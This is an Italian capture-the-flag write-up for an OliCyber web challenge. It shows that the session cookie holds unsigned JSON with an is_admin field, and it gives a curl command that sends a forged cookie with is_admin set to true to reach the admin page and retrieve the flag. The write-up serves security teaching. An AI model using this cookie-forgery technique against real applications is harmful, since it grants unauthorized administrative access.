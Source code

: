 > Un pannello assolutamente inutile, ma forse l'admin nasconde qualcosa!

Provando a registrarsi con username e password qualunque, si apre una pagina che permette di cambiare descrizione, aggiungere una nota al profilo, oppure cliccare un certo pulsante "Admin". Aprendo la pagina di admin senza esserlo, il risultato è una scritta "Not an admin :p" che impedisce di visualizzarne il contenuto.
Nei devtools del browser però, guardando la rete e poi i request cookies, troviamo:

```
"session": "{\"user\":{\"username\":\"emma\",\"password\":\"12345678\",\"is_admin\":false,\"description\":\"prova\",\"notes\":[\"prova\"]}}"
```

Ci basta modificare il valore "is_admin" da *false* a *true* in un qualsiasi modo, ad esempio con curl:
```bash
curl -i -X GET "http://useless-panel.challs.olicyber.it/admin" \
-H "Cookie: session={\"user\":{\"username\":\"emma\",\"password\":\"12345678\",\"is_admin\":true,\"description\":\"prova\",\"notes\":[\"prova\"]}}"
```

E riceviamo la flag stampata:

```
HTTP/1.1 200 OK
Content-Length: 39
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Sep 2025 20:45:20 GMT
Etag: W/"27-Y6fIQ1Q+w0AiN5GGgkCoSfQUFKc"
X-Powered-By: Express

flag{never_trust_user_provided_cookies}
```
